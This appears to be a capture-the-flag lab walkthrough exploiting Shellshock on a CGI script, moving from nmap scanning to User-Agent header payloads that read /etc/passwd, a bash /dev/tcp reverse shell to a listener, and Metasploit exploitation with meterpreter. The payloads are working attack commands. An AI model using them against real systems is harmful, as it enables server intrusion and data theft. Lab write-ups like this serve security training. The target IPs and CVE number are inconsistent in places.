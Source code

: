 # 🔬Bash

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Shellshock](https://attackdefense.com/challengedetailsnoauth?cid=1911)
>
> * Target IP: `192.54.253.3`
> * **Bash Exploitation** - [CVE-2014-6071](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)

### Enumeration <a href="#enumeration" id="enumeration"></a>

```bash
nmap 192.54.253.0/24
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap 192.54.253.3
nmap -sV 192.54.253.3
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Check the website via a browser:
  * `http://192.173.104.3/`
* View Page Source
  * `http://192.173.104.3/gettime.cgi`
  * `gettime.cgi` script can be utilized as the attack vector

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Check if the server is vulnerable to ShellShock

```bash
nmap -sV --script http-shellshock --script-args http-shellshock.uri=/gettime.cgi 192.54.253.3
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Manual Exploitation <a href="#manual-exploitation" id="manual-exploitation"></a>

* [Shellshock exploitable environment](https://github.com/opsxcq/exploit-CVE-2014-6271)
* To inject special characters into the `user-agent` HTTP header, [BurpSuite](https://portswigger.net/burp) can be used.
  * Configure FoxyProxy on Firefox, click on Burp Suite in FoxyProxy and run Burp Suite
  * Inside Proxy menu, turn **Intercept On**
* Reload the `/gettime.cgi` webpage in Firefox and intercept the response in BurpSuite and send it to `repeater`.

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Send the request to the **Repeater**
* Replace `User-Agent:` value with characters:

```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

* **Send** the request and check the Response

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
() { :; }; echo; echo; /bin/bash -c 'id'
() { :; }; echo; echo; /bin/bash -c 'ps -ef'
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Reverse Shell <a href="#reverse-shell" id="reverse-shell"></a>

* Set up a listener

```bash
nc -nvlp 1234
```

* Open Burp Suite and change the command to connect to the `netcat` listener of the Kali VM. The payload will be:

```bash
() { :; }; echo; echo; /bin/bash -c 'bash -i >&/dev/tcp/192.173.104.2/1234 0>&1'
```

* [About the shell](https://explainshell.com/explain?cmd=bash+-i+%3E%26%2Fdev%2Ftcp%2F192.173.104.2%2F1234+0%3E%261)

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Automatic Exploitation <a href="#automatic-exploitation" id="automatic-exploitation"></a>

```bash
service postgresql start && msfconsole
msf5 > search shellshock
```



<figure><img src="../../../../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
msf5 > use 0
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > options
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 192.54.253.3
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /gettime.cgi
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > run
```

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > use 5
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 192.54.253.3
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /gettime.cgi
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > ls
meterpreter > cat /etc/passwd
meterpreter > sysinfo
meterpreter > getuid
```

<figure><img src="../../../../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>










